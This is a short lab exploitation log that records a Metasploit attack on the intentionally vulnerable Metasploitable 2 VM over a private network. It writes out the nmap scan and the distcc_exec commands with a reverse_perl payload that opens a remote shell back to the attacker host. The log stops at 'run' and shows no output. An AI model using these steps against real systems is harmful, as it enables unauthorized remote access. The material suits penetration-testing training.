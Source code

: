 ## Exploitation Log – Metasploitable 2 (Phase 2)

**Date:** 2025-08-12  
**Attacker Machine:** Kali Linux (LHOST: 192.168.1.211)  
**Target Machine:** Metasploitable 2 (RHOST: 192.168.1.59)

---

### 1. Target Information
- **Target IP:** 192.168.1.59
- **Attacker IP:** 192.168.1.211
- **Hostname (target):** metasploitable
- **OS / Kernel:** Linux metasploitable 2.6.24-16-server (Ubuntu 8.04 LTS), i686

---

### 2. Exploit Details
- **Exploit Module:** `unix/misc/distcc_exec`
- **Payload:** `cmd/unix/reverse_perl`
- **Session Type:** Command shell

---

### 3. Exploitation Steps
```bash
# Scan for DistCC port
nmap -p 3632 192.168.1.59

# Metasploit run (distcc_exec + reverse_perl)
use exploit/unix/misc/distcc_exec
set RHOST 192.168.1.59
set LHOST 192.168.1.211
set PAYLOAD cmd/unix/reverse_perl
set LPORT 4444
run

